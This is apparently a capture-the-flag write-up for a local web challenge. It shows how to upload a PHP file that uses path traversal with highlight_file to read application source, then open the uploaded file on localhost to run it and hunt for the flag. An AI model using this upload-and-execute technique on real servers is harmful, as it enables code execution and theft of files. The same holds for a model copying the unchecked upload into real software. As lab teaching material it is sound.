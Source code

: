 # Writeup

## Possible Solution

1. Upload a file with a php content (`solution.php`)
```
<?php

highlight_file('./../../../../../app/views/home.php');
```

2. Server will respond with:

```
{
  "path": "uploads/2023/04/01/d41d8cd98f00b204e9800998ecf8427e.php"
}
```

3. Open http://localhost:PORT/{path} in the browser:

Example:
http://localhost:3000/uploads/2023/04/01/d41d8cd98f00b204e9800998ecf8427e.php

4. Your code will be executed! So basically you need to execute code to browse files and view their content to find the flag!


## Notes

You can use other scripts to scan and show files!